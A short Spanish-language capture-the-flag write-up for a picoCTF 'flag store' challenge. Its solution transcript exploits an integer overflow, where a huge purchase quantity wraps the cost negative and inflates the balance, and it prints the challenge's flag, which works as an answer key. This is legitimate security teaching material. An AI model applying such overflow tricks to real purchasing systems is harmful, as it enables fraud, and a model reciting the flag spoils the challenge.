 #### - **Descripción** 
Hay una tienda de banderas que vende artículos, ¿se puede comprar una? [Fuente](https://jupiter.challenges.picoctf.org/static/dd28f0987f28c894f35d5d48564c3402/store.c) . Conectar con `nc jupiter.challenges.picoctf.org 44566`.
#### Pista 
¡El complemento a dos puede producir algunas cosas raras cuando los números son realmente grandes!
#### - **Solución** 
1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
2400000

The final cost is: -2134967296

Your current balance after transaction: 2134968396

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_bag5_68d16363}
Welcome to the flag exchange
We sell flags
picoCTF{m0n3y_bag5_68d16363}
